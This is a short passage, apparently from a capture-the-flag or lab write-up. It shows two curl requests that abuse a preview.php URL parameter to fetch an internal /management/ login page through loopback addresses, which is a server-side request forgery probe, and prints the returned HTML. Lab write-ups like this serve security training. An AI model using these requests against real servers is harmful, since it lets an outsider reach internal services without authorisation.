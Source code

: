 <br><br>

```bash
:~# curl -s http://xx.xx.xxx.xx/preview.php?url=http://0.0.0.0/management/

<!DOCTYPE html>
...
  <title>TryBookMe - Login</title>
 ...
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
...
      <a class="navbar-brand" href="#">\U0001f510 TryBookMe Login</a>
...
      <h3 class="text-center mb-4">Sign In</h3>
...
      <form method="POST" action="">
        <div class="mb-3">
          <label for="username" class="form-label">Username</label>
          <input type="text" name="username" class="form-control" id="username" required>
        </div>

        <div class="mb-3">
          <label for="password" class="form-label">Password</label>
          <input type="password" name="password" class="form-control" id="password" required>
        </div>
...
```

```bash
:~# curl -s http:/xx.xx.xxx.xx/preview.php?url=http://127.0.0.1/management/

<!DOCTYPE html>
...
  <title>TryBookMe - Login</title>
 ...
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
...
      <a class="navbar-brand" href="#">\U0001f510 TryBookMe Login</a>
...
      <h3 class="text-center mb-4">Sign In</h3>
...
      <form method="POST" action="">
        <div class="mb-3">
          <label for="username" class="form-label">Username</label>
          <input type="text" name="username" class="form-control" id="username" required>
        </div>

        <div class="mb-3">
          <label for="password" class="form-label">Password</label>
          <input type="password" name="password" class="form-control" id="password" required>
        </div>
...
```
